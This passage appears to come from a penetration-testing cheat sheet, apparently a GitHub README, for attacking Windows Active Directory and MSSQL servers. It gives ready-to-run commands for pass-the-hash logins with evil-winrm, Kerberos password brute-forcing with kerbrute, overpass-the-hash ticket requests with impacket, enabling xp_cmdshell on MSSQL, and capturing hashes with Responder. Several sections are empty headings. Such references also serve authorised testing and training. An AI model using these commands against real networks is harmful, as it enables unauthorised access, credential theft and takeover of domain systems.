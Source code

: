 - Gain access with NT Hash
- https://github.com/Hackplayers/evil-winrm
```
evil-winrm --user Administrator -H NT-hash --ip <victim_ip>
```



- Kerberos brute-force

Tool: https://github.com/TarlogicSecurity/kerbrute

Usage:
```
python kerbrute.py -domain domain.name -users users.txt -passwords passwords.txt -outputfile output_file_name.txt
```

- Kerberoasting



- Overpass The Hash/Pass The Key (PTK)
This attack aims to use user NTLM hash to request Kerberos tickets, as an alternative to the common Pass The Hash over NTLM protocol.

Usage:
```
impacket-getTGT domain.name/user_name -hashes :<NTLM hash>
```

- Pass the ticket(PTT)

- Silver ticket

- Golden ticket

--------------------------------------------------------------------------------------------------------------------------------

# MSSQL

--------------------------------------------------------------------------------------------------------------------------------
- Connect to the mmsql server via mssqlclient.py from impacket
```
mssqlclient.py [user_name]@[victim_ip] -db db_name -windows-auth
```

- Check xp_cmdshell
```
SQL>enable_xp_cmdshell
```

- Responder and xp_dirtree

On local host
```
responder -I tun0

tun0 is example interface
```
